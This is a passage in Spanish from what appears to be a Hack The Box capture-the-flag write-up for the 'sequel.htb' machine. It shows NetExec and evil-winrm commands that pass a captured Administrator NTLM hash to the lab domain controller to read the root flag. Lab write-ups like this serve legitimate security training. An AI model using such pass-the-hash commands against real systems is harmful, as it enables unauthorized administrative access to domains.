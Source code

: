 Una vez obtenido el hash NTLM del usuario `Administrator@sequel.htb` procederemos a validar que podemos realizar _**Pass-The-Hash**_ y conectarnos al DC mediante `evil-winrm` y verificar la flag de **root.txt.**

```bash
nxc smb 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'

evil-winrm -i 10.10.11.51 -u 'Administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

<figure><img src="../../.gitbook/assets/3515_vmware_4uNV62D8hD.png" alt=""><figcaption></figcaption></figure>
